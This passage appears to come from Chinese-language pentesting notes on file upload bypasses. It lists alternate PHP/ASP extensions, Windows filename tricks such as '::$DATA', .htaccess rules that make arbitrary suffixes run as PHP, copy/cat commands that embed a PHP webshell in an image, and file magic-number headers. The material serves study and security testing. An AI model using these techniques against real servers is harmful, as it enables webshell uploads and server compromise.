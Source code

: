         - .php3/phtml(php)
        - .cer/.asmx(asp)

      - Windows系统特性绕过

        a.php.   a.php [空格 ]   a.php:123    a.php::$DATA
    
  - 内容检测 
  
    - 图片马（正常的图片头部+webshell） FFD8FF

![image-20210721164442084](文件上传/image-20210721164442084.png)

上传.htaccess文件

AddType application/x-httpd-php xxx  将xxx后缀的文件可使用php解析

<FilesMatch \.ccc$>
    SetHandler application/x-httpd-php    将.ccc结尾后缀的文件使用php解析   也可以使用"a.ccc"写死执行php
</FilesMatch>

生成图片马

```sh
- copy 1.jpg \b + 2.php \a 3.php (windows)
- cat 1.php >> 2.jpg (linux)
常见文件文件头：

PEG (jpg)，文件头：FFD8FF
PNG (png)，文件头：89504E47
GIF (gif)，文件头：47494638
TIFF (tif)，文件头：49492A00
Windows Bitmap (bmp)，文件头：424D
CAD (dwg)，文件头：41433130
Adobe Photoshop (psd)，文件头：38425053
Rich Text Format (rtf)，文件头：7B5C727466
XML (xml)，文件头：3C3F786D6C
HTML (html)，文件头：68746D6C3E
Email [thorough only] (eml)，文件头：44656C69766572792D646174653A
Outlook Express (dbx)，文件头：CFAD12FEC5FD746F
Outlook (pst)，文件头：2142444E
MS Word/Excel (xls.or.doc)，文件头：D0CF11E0
MS Access (mdb)，文件头：5374616E64617264204A
WordPerfect (wpd)，文件头：FF575043
Postscript (eps.or.ps)，文件头：252150532D41646F6265
Adobe Acrobat (pdf)，文件头：255044462D312E
```